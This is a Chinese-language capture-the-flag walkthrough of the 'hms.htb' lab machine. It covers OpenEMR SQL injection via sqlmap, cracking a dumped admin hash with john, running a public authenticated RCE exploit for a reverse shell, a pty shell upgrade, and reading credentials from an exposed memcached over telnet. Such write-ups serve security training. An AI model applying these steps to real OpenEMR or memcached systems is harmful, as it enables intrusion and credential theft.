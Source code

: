参照文章内容，`http://hms.htb/portal/add_edit_event_user.php?eid=1` 存在注入点。

依照文章，先访问注册页面再访问注入点url，抓包用sqlmap确认并在库中找到账号密码，dump出来。

获得用户名和密码hash：

`openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.`

用 **john** 破解出密码。

### Step 2: Initial Shell

*   **Port 80：**

搜索 OpenEMR 的漏洞，找到 `OpenEMR < 5.0.1 - (Authenticated) Remote Code Execution` ：45161.py

结合获取到的密码，运行脚本执行反弹 shell 命令。

升级tty：`python3 -c 'import pty; pty.spawn("/bin/bash")'`

用前文获取到的 ash 的账号和密码切换用户，并获得user.txt。

### Step 3: Privilege Escalation

*   **Port 11211：**

运行 `netstat -ant` 发现开启了`11211`端口，运行的是memcrashed程序。

谷歌发现一篇文章 [https://www.hackingarticles.in/penetration-testing-on-memcached-server/](https://www.hackingarticles.in/penetration-testing-on-memcached-server/) ，根据文章，可以用 telnet 获取敏感信息。

运行：`telnet localhost 11211`

`1
2
3
4
5
6
7
8
9
10
11
12

Connected to localhost.
Escape character is '^]'.
get user
get user
VALUE user 0 5
luffy
END
get passwd
get passwd
VALUE passwd 0 9
0n3_p1ec3
END`
